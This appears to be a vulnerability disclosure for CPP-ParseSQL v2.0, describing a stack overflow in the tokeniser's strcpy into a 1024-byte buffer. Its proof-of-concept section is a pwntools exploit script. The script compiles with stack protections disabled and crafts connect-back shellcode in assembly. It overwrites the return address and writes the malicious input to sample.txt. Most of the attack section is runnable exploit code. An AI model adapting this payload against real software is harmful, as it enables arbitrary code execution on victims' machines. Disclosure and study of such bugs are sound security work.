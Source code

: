 # Stack Overflow in CPP-ParseSQL v2.0

## SUMMARY

Stack Overflow in CPP-ParseSQL

The stack overflow vulnerability is located in line 177 of the tokeniser.cpp file of the CPP-ParseSQL v2.0 program. Attackers can achieve attack effects such as arbitrary address execution, arbitrary code execution, and machine terminal acquisition by leaving carefully designed files for parsing.



## DETAIL

- source link: https://github.com/Icejin-a11y/CPP-ParseSQL/tree/main
- version: v2.0



The main function reads the sample.txt file, load SQL statements, then use `tokenise ` to tokenization

![alt text](assets/image-13.png)

in the `tokenise `,  it keep copy byte from file to buffer

![alt text](assets/image-14.png)

Then when it meet a `tokendel` byte run the  `gettoken` with buffer

![alt text](assets/image-15.png)

In `tokendel` the buffer(word) copied to word_upp[1024], result a Stack Overflow when the buffer over 1024 bytes

![alt text](assets/image-16.png)

## SHOW

before strcpy

![alt text](assets/image-17.png)

after strcpy

![alt text](assets/image-18.png)

## POC

build

```shell
g++ main.cpp -o main -z lazy -no-pie -fno-stack-protector -z execstack
```

```py
from pwn import *
from LibcSearcher import *
import sys

import pwnlib.shellcraft

context(os='linux', arch='amd64', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h', '-p', '50', '-F' '#{pane_pid}', '-P']

sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda x,y:p.sendafter(x,y)
sla=lambda x,y:p.sendlineafter(x,y)
rc=lambda x:p.recv(x)
rl=lambda :p.recvline()
ru=lambda x:p.recvuntil(x)
ita=lambda :p.interactive()
slc=lambda :asm(shellcraft.sh())
uu64=lambda x:u64(x.ljust(8,b'\0'))
uu32=lambda x:u32(x.ljust(4,b'\0'))
getaddr=lambda :uu64(rc(6).ljust(8,b'\0'))
getbinsh=lambda :libc.search(b'/bin/sh').__next__()

def print_hex(bin_code):
    hex_string_with_spaces = ' '.join(f'{byte:02x}' for byte in bin_code)
    print(hex_string_with_spaces)
	
def gdba(x=''):
	if len(sys.argv) > 1:
		if sys.argv[1] == 'n':
			return
	if type(p)==pwnlib.tubes.remote.remote:
		return
	elif type(p)==pwnlib.tubes.process.process:
		# gdb.attach(p,x)
		gdb.attach(proc.pidof(p)[0], x)
		pause()
def getProcess():
	if len(sys.argv) > 1:
		if sys.argv[1] == 'r':
			return remote('','')
	return process('./main')

stack_addr = 0x7ffc8d4256a8
start = stack_addr - 0x7ffe211e07a8 + 0x7ffe211df260
shellcode=asm("""
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        /* open new socket */
        /* open new socket */
        /* call socket('AF_INET', SOCK_STREAM (1), 0) */
		
    xor rax, rax          /* rax = 0 */
    mov al, 0x1f          /* rax = 0x1f */
    add al, 0x8          /* rax = 0x27 */
    add al, 0x2          /* rax = 0x29 */
    xor rsi, rsi          /* esi = 0 */
			  mov rdi, rsi
		mov dil, 2
        mov sil, 1
        xor edx, edx /* rdx=0 代替cdq指令 */
        syscall
        /* Put socket into rbp */
        mov rbp, rax
        /* Create address structure on stack */
        /* push b"\x02\x00'\x0f\x7f\x00\x00\x01" */
        mov rax, 0x201010101010101
        push rax
        mov rax, 0x201010101010101 ^ 0x100007f0f270002
        xor [rsp], rax
        /* Connect the socket */
        /* call connect('rbp', 'rsp', 0x10) */
        
	xor rax, rax
        mov al, 0x23
        add al, 0x7
        mov rdi, rbp
	xor rdx, rdx
	    mov dl , 0x10
        mov rsi, rsp
        syscall
""")
print(shellcode)

payload = shellcode.ljust(0x428, b'h')+p64(start)

# payload = b'a'*0x20
# payload = payload.replace(b')', b'k')
content = payload+b"( from tbl_2 JOIN tbl_1;"


f = open('sample.txt', 'wb')
f.write(content)
f.close()
```

